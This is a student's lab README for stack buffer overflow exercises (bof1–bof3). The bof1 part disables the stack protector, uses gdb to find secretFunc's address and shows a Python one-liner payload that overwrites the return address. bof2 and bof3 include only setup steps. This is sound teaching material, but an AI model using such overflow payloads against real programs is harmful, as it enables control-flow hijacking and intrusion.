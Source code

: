 ## @author:Mai Đức Kiên
## @Id:22110046

## Exercise-Security Lab bof1
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/stackframe.png" /> <br>

### Conducting the attack
1. After creating the seclabs folder, continue to create a folder named bof in seclabs <br>
`$> mdkir bof` <br>
2. Open terminal<br>
`$> cd seclabs` <br>
`$> cd bof` <br>
3. Run code command. to open visual studio in terminal <br>
4. Run docker container from previously built image <br>
5. Run this command to create file bof1.out<br>
`$>gcc -g bof1.c -o bof1.out`<br>
6. Compile program with options to code execution on stack <br>
`$>gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2` <br>
7. Load vuln.out in gdb <br>
`$> gdb -q bof1.out` <br>
8. Get the secretFunc function address <br>
`$> disas secretFunc` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/secretFuncAddress.png" /> <br>
9. Once we have obtained the secretFunc function address: 0804846b, we must exit gdb <br>
`$> q` <br>
11. Overflow memory we need to fill 204 characters + 4 characters of secretFunc function address <br>
`$>echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result.png" /> <br>
12. Remove the missing arguments line, add the variables a,b,1,2,... to the end of bof1.out
`$> echo $(python -c "print('a'*204+'\x6b\x84\x04\x08')") | ./bof1.out 1` <br>
<img align="center" width=auto height=auto src="https://raw.githubusercontent.com/KITLoveWF/Exercise-Security/main/result1.png" /> <br>

## Exercise-Security Lab bof2
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
![image](https://github.com/user-attachments/assets/e77fc665-25ba-44a2-8082-b0075633236f)

## Exercise-Security Lab bof3
### Prepare for the lab environment:
The Dockerfile is used to build docker image with full required packages for Hands-On Assembly & Security labs. <br>
**How to use:**<br>
1. Install docker on your computer (host machine) <br>
2. Build the image "img4lab" that comprises all required packages for labs <br>
`$> docker build -t img4lab .` to build docker image <br>
3. Run docker container from previously built image <br> 
`$> docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab` <br>
`Seclabs` is created inside student's home folder
### Visualize the initial attack idea
![image](https://github.com/user-attachments/assets/085fefae-1b34-4858-8c32-20a934d187a4)



   
